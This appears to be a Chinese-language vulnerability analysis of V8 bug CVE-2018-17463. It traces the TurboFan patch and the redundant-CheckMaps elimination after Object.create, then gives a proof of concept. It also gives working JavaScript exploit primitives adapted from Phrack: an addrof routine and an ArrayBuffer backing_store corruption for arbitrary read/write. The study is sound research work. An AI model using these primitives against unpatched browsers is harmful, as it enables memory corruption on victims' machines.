




# CVE-2018-17463

## 环境搭建

Ubuntu20.04LTS 

```cpp
git checkout 568979f4d891bafec875fab20f608ff9392f4f29
gclient sync
tools/dev/v8gen.py x64.debug
ninja -C out.gn/x64.debug d8
```

## 漏洞分析

### patch

```cpp
[turbofan] Fix ObjectCreate's side effect annotation.
    
Bug: chromium:888923
Change-Id: Ifb22cd9b34f53de3cf6e47cd92f3c0abeb10ac79
Reviewed-on: https://chromium-review.googlesource.com/1245763
Reviewed-by: Benedikt Meurer <bmeurer@chromium.org>
Commit-Queue: Jaroslav Sevcik <jarin@chromium.org>
Cr-Commit-Position: refs/heads/master@{#56236}
```

diff：

```cpp
diff --git a/src/compiler/js-operator.cc b/src/compiler/js-operator.cc
index 94b018c..5ed3f74 100644
--- a/src/compiler/js-operator.cc
+++ b/src/compiler/js-operator.cc
@@ -622,7 +622,7 @@
   V(CreateKeyValueArray, Operator::kEliminatable, 2, 1)                \
   V(CreatePromise, Operator::kEliminatable, 0, 1)                      \
   V(CreateTypedArray, Operator::kNoProperties, 5, 1)                   \
-  V(CreateObject, Operator::kNoWrite, 1, 1)                            \
+  V(CreateObject, Operator::kNoProperties, 1, 1)                       \
   V(ObjectIsArray, Operator::kNoProperties, 1, 1)                      \
   V(HasProperty, Operator::kNoProperties, 2, 1)                        \
   V(HasInPrototypeChain, Operator::kNoProperties, 2, 1)                \
```

这个patch是打在`#define CACHED_OP_LIST(V)  `的宏定义里，其中把CreateObject相对应的operator的properties从Operator::kNoWrite改成了Operator::kNoProperties，properties定义在operator类中：

```cpp
// src/compiler/operator.h
class V8_EXPORT_PRIVATE Operator : public NON_EXPORTED_BASE(ZoneObject) {
 public:
  typedef uint16_t Opcode;

  // Properties inform the operator-independent optimizer about legal
  // transformations for nodes that have this operator.
  enum Property {
    kNoProperties = 0,
    kCommutative = 1 << 0,  // OP(a, b) == OP(b, a) for all inputs.
    kAssociative = 1 << 1,  // OP(a, OP(b,c)) == OP(OP(a,b), c) for all inputs.
    kIdempotent = 1 << 2,   // OP(a); OP(a) == OP(a).
    kNoRead = 1 << 3,       // Has no scheduling dependency on Effects
    kNoWrite = 1 << 4,      // Does not modify any Effects and thereby
                            // create new scheduling dependencies.
    kNoThrow = 1 << 5,      // Can never generate an exception.
    kNoDeopt = 1 << 6,      // Can never generate an eager deoptimization exit.
    kFoldable = kNoRead | kNoWrite,
    kKontrol = kNoDeopt | kFoldable | kNoThrow,
    kEliminatable = kNoDeopt | kNoWrite | kNoThrow,
    kPure = kNoDeopt | kNoRead | kNoWrite | kNoThrow | kIdempotent
  };
  // ................................................. //
}
```

根据注释，这个properties应该是标志该operator会有哪些effect，比如满足交换律，不会抛出异常等等，而其中的kNoWrite说明该操作不会有“side-effect”，我个人的理解是带有“side-effect”的操作是能改变对象map（或者内存布局）的操作。可以看到的是，在打了patch之后，现在的CreateObject操作是会有“side-effect”了。

### lowering  JSCreateObject

为了确定节点是否会有“side-effect”，通常需要查看一下对该节点进行lowering的阶段，JSCreateObject节点会在Generic lowering阶段被lowering：

```cpp
// src/compiler/js-generic-lowering.cc
void JSGenericLowering::LowerJSCreateObject(Node* node) {
  CallDescriptor::Flags flags = FrameStateFlagForCall(node);
  Callable callable = Builtins::CallableFor(
      isolate(), Builtins::kCreateObjectWithoutProperties);
  ReplaceWithStubCall(node, callable, flags);
}
```

Builtins::kCreateObjectWithoutProperties会调用到Runtime::kObjectCreate，而Runtime::kObjectCreate函数会将对象的map从FastProperties变成DictionaryProperties，测试代码：

```javascript
let o = {a: 42};
%DebugPrint(o);
Object.create(o);
%DebugPrint(o);
```

输出：

```cpp
DebugPrint: 0x2b71c098e1a9: [JS_OBJECT_TYPE]
 - map: 0x11c78380c981 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x310bdab846d9 <Object map = 0x11c7838022f1>
 - elements: 0x0ef366d82cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x0ef366d82cf1 <FixedArray[0]> {
    #a: 42 (data field 0)
 }
//  after create
DebugPrint: 0x2b71c098e1a9: [JS_OBJECT_TYPE]
 - map: 0x11c78380ca21 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x310bdab846d9 <Object map = 0x11c7838022f1>
 - elements: 0x0ef366d82cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x2b71c098e201 <NameDictionary[17]> {
   #a: 42 (data, dict_index: 1, attrs: [WEC])
 }
```

而这表明Object.create是有“side-effect”的，而turbofan认为其没有，这会导致了后续优化推测出错

### Redundancy Elimination

如果一些安全检查的节点（如checkmap）被认为是不需要的，那么在后续的优化阶段，该检查节点就会被删除，比如以下的代码：

```javascript
function foo(o) {
  return o.a + o.b;
}

for(var i = 0;i < 30000;i++)
    foo({a:1,b:2});
```

首先会生成类似的代码：

```cpp
CheckHeapObject o
CheckMap o, mapA
LoadField [offset a]

CheckHeapObject o
CheckMap o, mapA
LoadField  [offset b]  
```

这是在取得o.a和o.b，很明显这里第二次的CheckHeapObject和CheckMap是Redundancy 的，所以如果Turbofan认为在这两次check之间没有操作会改变o的map的话，就会在后续优化的过程中把第二次的CheckMap删除，这个例子的turbolizer图，inlining阶段：



到了load elimination阶段：




为了消除这些冗余的check节点，turbofan要保证这两次check之间不会有操作改变对象的Map，然而要预测这个是很困难的，因为js本身就很复杂，一个没考虑到的操作就会导致错误的消除，比如这个漏洞里的Object.create

### poc

```javascript
function foo(o) {
  o.a;
  Object.create(o);
  return o.b;
}

for(var i = 0;i < 10000;i++){
  let o = {a:42};
  o.b = 43;
  foo(o);
}

let o = {a:42};
o.b = 43;
var res = foo(o);
console.log(res);
```

输出结果不是预期的43，查看生成的优化代码：

```cpp
0x17685fc40db9    59  48bbd1c9f072fb0a0000 REX.W movq rbx,0xafb72f0c9d1    ;; object: 0x0afb72f0c9d1 <Map(HOLEY_ELEMENTS)>
0x17685fc40dc3    63  483958ff       REX.W cmpq [rax-0x1],rbx	// check map
0x17685fc40dc7    67  0f854c000000   jnz 0x17685fc40e19  <+0xb9>
0x17685fc40dcd    6d  488bd8         REX.W movq rbx,rax
0x17685fc40dd0    70  488b75e8       REX.W movq rsi,[rbp-0x18]
0x17685fc40dd4    74  49ba20a62f0e247f0000 REX.W movq r10,0x7f240e2fa620  (CreateObjectWithoutProperties)    ;; off heap target
0x17685fc40dde    7e  41ffd2         call r10			// call object.create
0x17685fc40de1    81  488b4510       REX.W movq rax,[rbp+0x10]
0x17685fc40de5    85  488b4007       REX.W movq rax,[rax+0x7]		// 取得properties
0x17685fc40de9    89  488b400f       REX.W movq rax,[rax+0xf]		// o.b
0x17685fc40ded    8d  488be5         REX.W movq rsp,rbp
0x17685fc40df0    90  5d             pop rbp
0x17685fc40df1    91  c21000         ret 0x10
// ......................................................... //
0x17685fc40e19    b9  e827320400     call 0x17685fc84045     ;; eager deoptimization bailout 1
```

我们可以看到只在一开始进行了checkmap，后续在取o.b的时候并没有checkmap，是因为turbofan认为object.create并不会改变o的map

### remove checkmap

让我们跟踪下代码来看看CreateObject的Operator::kNoWrite property是怎么影响到这个checkmap的消除的。

在turbolizer中可以看出是在load elimination的时候把第二次的checkmap给消除的，跟踪消除checkmap的代码：

```cpp
Reduction LoadElimination::ReduceCheckMaps(Node* node) {
  ZoneHandleSet<Map> const maps = CheckMapsParametersOf(node->op()).maps();
  Node* const object = NodeProperties::GetValueInput(node, 0);
  Node* const effect = NodeProperties::GetEffectInput(node);
  AbstractState const* state = node_states_.Get(effect);
  if (state == nullptr) return NoChange();		// [1]
  ZoneHandleSet<Map> object_maps;
  if (state->LookupMaps(object, &object_maps)) {
    if (maps.contains(object_maps)) return Replace(effect);			// [2]
    // TODO(turbofan): Compute the intersection.
  }
  state = state->SetMaps(object, maps, zone());
  return UpdateState(node, state);
}
```

[1]出的代码要求state不能威nullptr，[2]处就是具体消除checkmap的地方了，而该state是checkmap节点的EffectInput节点的state，以上面poc的代码来说就是JSCreateObject，这个也可以通过gdb来看到：



而JSCreateObject节点在loadElimination阶段会经过该函数：

```cpp
Reduction LoadElimination::ReduceOtherNode(Node* node) {
  if (node->op()->EffectInputCount() == 1) {
    if (node->op()->EffectOutputCount() == 1) {
      Node* const effect = NodeProperties::GetEffectInput(node);
      AbstractState const* state = node_states_.Get(effect);
      // If we do not know anything about the predecessor, do not propagate
      // just yet because we will have to recompute anyway once we compute
      // the predecessor.
      if (state == nullptr) return NoChange();
      // Check if this {node} has some uncontrolled side effects.
      if (!node->op()->HasProperty(Operator::kNoWrite)) { // [3]
        state = empty_state();
      }
      return UpdateState(node, state);
    } else {
      // Effect terminators should be handled specially.
      return NoChange();
    }
  }
  DCHECK_EQ(0, node->op()->EffectInputCount());
  DCHECK_EQ(0, node->op()->EffectOutputCount());
  return NoChange();
}
```

如[3]处代码所示，如果该节点有Operator::kNoWrite属性的话，那就不会调用到下面那句`state = empty_state();`，也就是说JSCreateObject节点的state不会被清空，那么在调用LoadElimination::ReduceCheckMaps的时候就能保留下map的相关信息，这也就会可以消除checkmap节点了

## exploit

### memory layout

在开始之前我们需要查看一下FastProperties和DictionaryProperties 两个类型的Map下的properties内存布局是怎么样的

测试代码：

```javascript
var property_count = 8;
var o = {inline: 0xcafe};
for(var i = 0;i < property_count;i++){
    Object.defineProperty(o,"p" + i, {
      value : i,
      writable : true
    });
}

%DebugPrint(o);
%SystemBreak();
Object.create(o);
%DebugPrint(o);
%SystemBreak();
```

FastProperties下的properties数组：

```cpp
DebugPrint: 0x41dac78e239: [JS_OBJECT_TYPE]
 - map: 0x2e9e9270ccf1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x05e6a98046d9 <Object map = 0x2e9e927022f1>
 - elements: 0x0010d8082cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x041dac78e9c9 <PropertyArray[9]> 
     
pwndbg> telescope 0x041dac78e9c8 10
00:0000│  0x41dac78e9c8 —▸ 0x10d8083899 ◂— 0x10d80822
01:0008│  0x41dac78e9d0 ◂— 0x900000000
02:0010│  0x41dac78e9d8 ◂— 0x0
03:0018│  0x41dac78e9e0 ◂— 0x100000000
04:0020│  0x41dac78e9e8 ◂— 0x200000000
05:0028│  0x41dac78e9f0 ◂— 0x300000000
06:0030│  0x41dac78e9f8 ◂— 0x400000000
07:0038│  0x41dac78ea00 ◂— 0x500000000
08:0040│  0x41dac78ea08 ◂— 0x600000000
09:0048│  0x41dac78ea10 ◂— 0x700000000
```

DictionaryProperties 下的properties数组：

```cpp
DebugPrint: 0x41dac78e239: [JS_OBJECT_TYPE]
 - map: 0x2e9e9270cd91 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x05e6a98046d9 <Object map = 0x2e9e927022f1>
 - elements: 0x0010d8082cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x041dac78eb81 <NameDictionary[53]> 
     
pwndbg> telescope 0x041dac78eb80 30
00:0000│  0x41dac78eb80 —▸ 0x10d8083669 ◂— 0x10d80822
01:0008│  0x41dac78eb88 ◂— 0x3500000000
02:0010│  0x41dac78eb90 ◂— 0x900000000			// size
03:0018│  0x41dac78eb98 ◂— 0x0					// deleted count
04:0020│  0x41dac78eba0 ◂— 0x1000000000			// capacity
05:0028│  0x41dac78eba8 ◂— 0xa00000000
06:0030│  0x41dac78ebb0 ◂— 0x0
07:0038│  0x41dac78ebb8 —▸ 0x10d80825a1 ◂— 0x10d80825	// bucket start
... ↓     2 skipped
0a:0050│  0x41dac78ebd0 —▸ 0x5e6a9823409 ◂— 0xc600000010d80825
0b:0058│  0x41dac78ebd8 ◂— 0x300000000
0c:0060│  0x41dac78ebe0 ◂— 0x5f000000000
0d:0068│  0x41dac78ebe8 —▸ 0x10d80825a1 ◂— 0x10d80825
... ↓     8 skipped
16:00b0│  0x41dac78ec30 —▸ 0x5e6a9823439 ◂— 0xd600000010d80825
17:00b8│  0x41dac78ec38 ◂— 0x400000000
18:00c0│  0x41dac78ec40 ◂— 0x6f000000000
19:00c8│  0x41dac78ec48 —▸ 0x5e6a98229b1 ◂— 0x9a00000010d80825
1a:00d0│  0x41dac78ec50 ◂— 0xcafe00000000
1b:00d8│  0x41dac78ec58 ◂— 0x1c000000000
1c:00e0│  0x41dac78ec60 —▸ 0x5e6a9823301 ◂— 0x9e00000010d80825
1d:00e8│  0x41dac78ec68 ◂— 0x0
```

这个DictionaryProperties 下的properties数组应该是类似hashtable的结构，还是3个一组（key，value，hash)，且每次运行时这个properties是不一样的，也就是每个组间的顺序可能会变化，相对应的bucket也会变化

但是只要我们定义的属性有很多（以下例子property_count为30），就能出现以下情况：



注意看打箭头的在数组中偏移是一样的，这个代表着在优化后turbofan以为在拿o.p6其实拿到的是o.p22，但是每一次执行这个匹配的位置是会变动的，所以我们需要动态的确认这个匹配的idx。

### addrof

以下代码来自 http://phrack.org/issues/70/9.html ，改了一点点

首先需要一个找到匹配idx的函数：

```javascript
const NUM_PROPERTIES = 32;
const MAX_ITERATIONS = 60000;

// Make an object with one inline and numerous out-of-line properties.
function makeObj(propertyValues) {
    let o = {inline: 0x1337};
    for (let i = 0; i < NUM_PROPERTIES; i++) {
        Object.defineProperty(o, 'p' + i, {
            writable: true,
            value: propertyValues[i]
        });
    }
    return o;
}

// Find a pair (p1, p2) of properties such that p1 is stored at the same
// offset in the FixedArray as p2 is in the NameDictionary.
let p1, p2;
function findOverlappingProperties() {
    let propertyNames = [];
    for (let i = 0; i < NUM_PROPERTIES; i++) {
        propertyNames[i] = 'p' + i;
    }
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            ${propertyNames.map((p) => `let ${p} = o.${p};`).join('\n')}
            return [${propertyNames.join(', ')}];
        }
    `);

    let propertyValues = [];
    for (let i = 1; i < NUM_PROPERTIES; i++) {
        // There are some unrelated, small-valued SMIs in the dictionary.
        // However they are all positive, so use negative SMIs. Don't use
        // -0 though, that would be represented as a double...
        propertyValues[i] = -i;
    }

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        let r = hax(makeObj(propertyValues));
        for (let i = 1; i < r.length; i++) {
            // Properties that overlap with themselves cannot be used.
            if (i !== -r[i] && r[i] < 0 && r[i] > -NUM_PROPERTIES) {
                [p1, p2] = [i, -r[i]];
                return;
            }
        }
    }

    throw "Failed to find overlapping properties";
}
```

makeObj函数会创建出带有一个inline属性和NUM_PROPERTIES个out-of-line属性的对象，eval创建的函数为(如NUM_PROPERTIES为2)：

```javascript
function hax(o){
     o.inline;
     this.Object.create(o);
     let p1 = o.p1;
     let p2 = o.p2; 
     return [p1,p2];
}
```

而把propertyValues都设置成负数是为了更方便的确认，因为NameDictionary数组中除了value会是该负数，key和hash都不会为负数，所以后面的判断条件也只需要判断出返回的数组里的某个偏移为负数且大于-NUM_PROPERTIES就可以，当然如果overlap了自己的是不行的

找到了这一对pair后，就可以构造出addrof了：

```javascript
// Return the address of the given object as BigInt.
function addrof(obj) {
    // Confuse an object with an unboxed double property with an object
    // with a pointer property.
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            return o.p${p1}.x1;
        }
    `);

    let propertyValues = [];
    // Property p1 should have the same Map as the one used in
    // corrupt for simplicity.
    propertyValues[p1] = {x1: 13.37, x2: 13.38};
    propertyValues[p2] = {y1: obj};

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        let res = hax(makeObj(propertyValues));
        if (res !== 13.37) {
            // Adjust for the LSB being set due to pointer tagging.
            return res;
        }
    }

    throw "Addrof failed";
}
```

之所以可以这样是因为在同一次执行中，相同属性构造的`Object`，在`DictionaryProperties`中的偏移是相同的[2]

### arbitrary read/write

上面我们可以泄露地址了，现在我们需要一个能任意地址读写的构造，最简单就是让一个ArrayBuffer（记为ab1）的backing_store指向另一个ArrayBuffer（记为ab2），这样就能操作ab1来修改ab2的backing_store来实现任意地址读写

```javascript
// Corrupt the backingStore pointer of an ArrayBuffer object and return the
// original address so the ArrayBuffer can later be repaired.
function corrupt(victim, newValue) {
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            let orig = o.p${p1}.x2;
            o.p${p1}.x2 = ${newValue.toNumber()};
            return orig;
        }
    `);

    let propertyValues = [];
    // x2 overlaps with the backingStore pointer of the ArrayBuffer.
    let o = {x1: 13.37, x2: 13.38};
    propertyValues[p1] = o;
    propertyValues[p2] = victim;

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        o.x2 = 13.38;
        let r = hax(makeObj(propertyValues));
        if (r !== 13.38) {
            return r.toBigInt();
        }
    }

    throw "CorruptArrayBuffer failed";
}
```

因为ArrayBuffer的内存布局是这样的：

```cpp
offset:
0 : Map
1 : properties
2 : elements
3 : byteLength
4 : backing_store
// ......  //
```

而o的内存布局：

```cpp
offset:
0 : Map
1 : properties
2 : elements
3 : inline property1
4 : inline property1
// ......  //
```

所以我们需要改o.x2这个inlline的property

成功修改后就实现了任意地址读写了

### 一个重要的问题

考虑以下代码：

```javascript
let o = {}
o.a = 1337;
o.b = {x: 42};

function foo(o) {
	return o.b.x;
}
```

在foo被优化后，只会生成一个checkmap节点，该checkmap节点是check对象o的，而不是check o.b的，check o.b的节点也是在load elimination的时候被消除了

## 参考链接

[1] http://phrack.org/issues/70/9.html

[2] https://gtoad.github.io/2019/09/04/V8-CVE-2018-17463/

[3] https://chromium.googlesource.com/v8/v8.git/+/52a9e67a477bdb67ca893c25c145ef5191976220%5E%21/#F0

[4] https://bugs.chromium.org/p/chromium/issues/detail?id=888923